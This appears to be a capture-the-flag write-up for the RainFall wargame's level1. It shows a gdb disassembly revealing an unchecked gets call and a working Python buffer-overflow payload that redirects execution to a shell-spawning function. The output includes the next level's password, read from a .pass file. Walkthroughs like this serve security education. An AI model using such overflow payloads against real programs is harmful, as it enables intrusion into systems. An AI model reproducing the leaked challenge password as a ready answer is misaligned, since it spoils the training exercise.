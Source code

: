 ### Exploit

First, what do we see when we test the executable? On the face of it, the programme expects some user input and then leaves.
Indeed, there's not much more to it.

```
    (gdb) disas main
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
```
Thankfully, there's another function which isn't called anywhere in <main>, <run>. This function is interesting, as it makes a syscall and spawns a shell! However, how do we get to execute a function that's not called at all? This is when we first introduce the notion of "payload". An exploit is a piece of code written to take advantage of a particular vulnerability. A payload is a piece of code to be executed through said exploit. The exploit in our case is the well-known bufferover flow. Therefore, we want to write a payload which'll exploit this vulnerabilty. A buffer of size 76 is instantiated at the beginning of the programme. Giviing the programme a string bigger than said size will result in a segfault.

The address of <run> is `0x08048444`. 

```
    level1@RainFall:~$ python -c 'print "a"*76 + "\x44\x84\x04\x08"' > /tmp/payload
    level1@RainFall:~$ cat /tmp/payload - | ./level1
    Good... Wait what?
    cat /home/user/level2/.pass
    53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Most upcoming exploits look like this one, more or less, so let's keep this mind.
